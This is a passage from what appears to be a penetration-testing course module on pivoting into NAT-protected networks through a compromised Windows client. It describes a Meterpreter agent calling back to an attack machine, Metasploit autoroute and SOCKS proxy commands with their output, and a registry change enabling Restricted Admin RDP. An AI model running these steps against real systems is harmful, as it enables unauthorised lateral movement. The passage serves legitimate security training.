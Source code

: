 In this section, we'll use reverse proxying to access machines that are protected by edge firewalls and _Network Address Translation_ (NAT)[1](https://portal.offsec.com/courses/pen-300-9502/learning/windows-lateral-movement-14690/windows-lateral-movement-14937#fn-local_id_532-1) configurations.

NAT is typically implemented at the company edge firewall and segments internal and external IP addresses. By design, this prevents us from gaining access to internal machines from the Internet.

For example, if we have compromised an internal workstation through a phishing attack as shown in Figure 5, we will not be able to obtain a Remote Desktop session on that system even if we have the clear text credentials.

However, we could establish an egress network connection from the compromised internal client to our attack machine and leverage this connection as a tunnel for other traffic, such as an RDP session.

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/lm/1bc7aa823db083223357f0a2a87eb15e-lm_proxy_dia.png" alt="Figure 5: Direct access to internal computers is blocked from the Internet"><figcaption><p>Figure 5: Direct access to internal computers is blocked from the Internet</p></figcaption></figure>

This is certainly not a new technique, but the concept and implementation can be somewhat complicated. We'll explore a few solutions. First, we'll use Meterpreter's built-in reverse proxy feature and then we'll demonstrate a standalone solution.



Note that in the lab for this module, there is no NAT or firewall in place and we use reverse tunneling to demonstrate and practice the concept.

To begin, we must have an established shell on the target system, which in this case is the Windows 10 client. To simulate a compromise, we will log in to the machine as the _admin_ user and reuse our existing PowerShell or C# tradecraft to launch a 64-bit staged Meterpreter agent that will connect to our Kali attacking machine.

Once the Meterpreter session is active, we'll send it to the background and switch to the _multi/manage/autoroute_ module.[2](https://portal.offsec.com/courses/pen-300-9502/learning/windows-lateral-movement-14690/windows-lateral-movement-14937#fn-local_id_532-2) This will allow us to configure a reverse tunnel through the Meterpreter session and use that with a _SOCKS proxy_[3](https://portal.offsec.com/courses/pen-300-9502/learning/windows-lateral-movement-14690/windows-lateral-movement-14937#fn-local_id_532-3) as shown in Listing 9.

```
msf5 exploit(multi/handler) > use multi/manage/autoroute

msf5 post(multi/manage/autoroute) > set session 1
session => 1

msf5 post(multi/manage/autoroute) > exploit

[!] SESSION may not be compatible with this module.
[*] Running module against CLIENT
[*] Searching for subnets to autoroute.
[+] Route added to subnet 192.168.120.0/255.255.255.0 from host's routing table.
[*] Post module execution completed

msf5 post(multi/manage/autoroute) > use auxiliary/server/socks4a

msf5 auxiliary(server/socks4a) > set srvhost 127.0.0.1
srvhost => 127.0.0.1

msf5 auxiliary(server/socks4a) > exploit -j
[*] Auxiliary module running as background job 0.

[*] Starting the socks4a proxy server
```


[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
[appsrv01]: PS C:\Users\admin\Documents> Exit